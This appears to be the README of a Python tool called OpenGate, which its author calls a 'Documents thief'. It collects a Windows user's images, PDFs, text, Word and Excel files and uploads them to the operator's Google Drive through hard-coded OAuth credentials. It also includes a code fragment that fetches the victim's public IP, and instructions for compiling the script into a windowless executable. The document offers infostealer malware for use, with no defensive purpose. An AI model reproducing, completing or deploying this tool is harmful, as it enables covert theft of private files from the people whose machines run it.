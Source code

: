 # OpenGate
OpenGate "Documents thief" searching for images , pdf .text file , word  and Excel ,  extension and send to Google Drive
* for windows operating system compile to exe 
* user can use pyinstaller or py2exe 'for py2exe uset setup.py file
* have to anable api 'OAuth 2.0 Playground'
* 
### how to enable OAuth 2.0 Playground
* the idea of use oauth 2.0 playground is the file  will be large  file so can not send it by email so-
- the best options to use auth 2.0 playground google api 'Googel Drive' so can create file on the google drive 
- and store it in google drive 

 * [Google Ads API Auth Series - Web Flow with the OAuth Playground](https://www.youtube.com/watch?v=KFICa7Ngzng)
 * [Using OAuth 2.0 to Access Google APIs](https://developers.google.com/identity/protocols/oauth2)
 * gentrate the access Token copy and past it 
 ```python
 Token    = ""#add the access Token hare
 ```
 ### handel with ipa Token Expire 
with use access Token will get expire after 1 hour , the OpenGate will requsts new access Token Automaticly if the access Token expire fot that have to hared code client_id , client_sctrite , refrech Token ,
 
```python 
client_id     = ''#add the client_id  hare
client_secret = ''#add the client_secret hare
refresh_token = ''#add the refresh_token  hare
```
### explain
```python

#!/usr/bin/env python3

import os
import shutil
import base64
import json
import requests
import socket
import urllib.request

Token         = "ya29.a0ARrdaM9XO9KvfMzshrDlxJTO6HMCyy5EIaMNduS2gnPamRk1KgoTAj-KSE1zJ_bW3s0xbbK7vjoWYMy5ZRWbtfZbLF0flz4uX58GXqkbNFC3iBXeJ3meGIoILJwuA2dH-7s7yCpnTuBuBYsZOGbpt0J6USo"# add the Token hare
client_id     = '40656873737638192.apps.googleusercontent.com'#add the client_id  hare
client_secret = 'kPcAZ9ICd4ldKE677fhnrjoe99eijejhrr-kijejjejjejjejjr0'#add the client_secret hare
refresh_token = '//04_5VB6CflruWCgYIARAAGAQSNwF-L9IrkPcAZ9ICd4ldKE677fhnrjoe99eijejhrr-kijejjejjejjejjr00jwjjwjjwjjwjjj' # add refreh Token hare
try:
    public_ip  = urllib.request.urlopen('http://api.ipify.org').read().decode('utf8')
```
## Compile python to exe
* to Compile openGate.py to OpenGate.exe have to use pyinstaller or py2exe
### pyinstaller 
   * have to use this command 
      * pyinstaller --noconsole --onefile  --noupx   .\OpenGate.py
         * Note :
           * user can  Compile OpenGate.py use Pyinstaller in Linux,mac or windows opreting system
           * required requests Library'pip install requests' be from compile it 
### py2exe
  * to cpmpile use py2exe have to run  'pip install py2exe'
    * after use setup.py run this command 'python setup.py py2exe
      * Note :
        * required requests  Library' pip install equests' be from compile it 
### connet me at :
   * rootx1982@mail.com
 ### thank you 
